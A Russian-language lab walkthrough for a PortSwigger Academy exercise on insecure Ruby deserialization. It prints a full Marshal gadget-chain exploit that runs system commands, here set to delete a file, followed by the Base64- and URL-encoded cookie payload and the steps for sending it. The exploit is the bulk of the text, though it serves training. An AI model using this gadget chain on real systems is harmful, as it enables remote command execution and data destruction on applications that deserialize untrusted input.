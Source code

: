 залогинимся под `wiener:peter`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/pics%20for%20walkthrough/1.png)

Найдем пример эксплуатации на Ruby на ресурсе
```
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
```

Скопипастим данный кусок кода
```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/pics%20for%20walkthrough/3.png)

Откроем любой онлайн компилятор, вроде
```
https://onecompiler.com/ruby/42dpgcsah
```

Далее заменим последние 2 строчки на 
`puts Base64.encode64(payload)`

и так же строку `rs.instance_variable_set('@git_set', "id")` заменим на `rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")`


В итоге получив
```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
и запустим код, и получим
```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/pics%20for%20walkthrough/2.png)


Удалим в терминале переносы строк 
```
echo "BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==" | tr -d "\n\r"
```

И получим куку

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/pics%20for%20walkthrough/4.png)

Перекодируем в URL кодировку
```
%42%41%68%62%43%47%4d%56%52%32%56%74%4f%6a%70%54%63%47%56%6a%52%6d%56%30%59%32%68%6c%63%6d%4d%54%52%32%56%74%4f%6a%70%4a%62%6e%4e%30%59%57%78%73%5a%58%4a%56%4f%68%56%48%5a%57%30%36%4f%6c%4a%6c%63%58%56%70%63%6d%56%74%5a%57%35%30%57%77%5a%76%4f%68%78%48%5a%57%30%36%4f%6c%42%68%59%32%74%68%5a%32%55%36%4f%6c%52%68%63%6c%4a%6c%59%57%52%6c%63%67%59%36%43%45%42%70%62%32%38%36%46%45%35%6c%64%44%6f%36%51%6e%56%6d%5a%6d%56%79%5a%57%52%4a%54%77%63%37%42%32%38%36%49%30%64%6c%62%54%6f%36%55%47%46%6a%61%32%46%6e%5a%54%6f%36%56%47%46%79%55%6d%56%68%5a%47%56%79%4f%6a%70%46%62%6e%52%79%65%51%63%36%43%6b%42%79%5a%57%46%6b%61%51%41%36%44%45%42%6f%5a%57%46%6b%5a%58%4a%4a%49%67%68%68%59%57%45%47%4f%67%5a%46%56%44%6f%53%51%47%52%6c%59%6e%56%6e%58%32%39%31%64%48%42%31%64%47%38%36%46%6b%35%6c%64%44%6f%36%56%33%4a%70%64%47%56%42%5a%47%46%77%64%47%56%79%42%7a%6f%4d%51%48%4e%76%59%32%74%6c%64%47%38%36%46%45%64%6c%62%54%6f%36%55%6d%56%78%64%57%56%7a%64%46%4e%6c%64%41%63%36%43%6b%42%7a%5a%58%52%7a%62%7a%73%4f%42%7a%73%50%62%51%74%4c%5a%58%4a%75%5a%57%77%36%44%30%42%74%5a%58%52%6f%62%32%52%66%61%57%51%36%43%33%4e%35%63%33%52%6c%62%54%6f%4e%51%47%64%70%64%46%39%7a%5a%58%52%4a%49%68%39%79%62%53%41%76%61%47%39%74%5a%53%39%6a%59%58%4a%73%62%33%4d%76%62%57%39%79%59%57%78%6c%4c%6e%52%34%64%41%59%37%44%46%51%37%45%6a%6f%4d%63%6d%56%7a%62%32%78%32%5a%51%3d%3d
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/pics%20for%20walkthrough/5.png)

Вставим в куки, и отправим запрос и получим уведомление об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/pics%20for%20walkthrough/6.png)
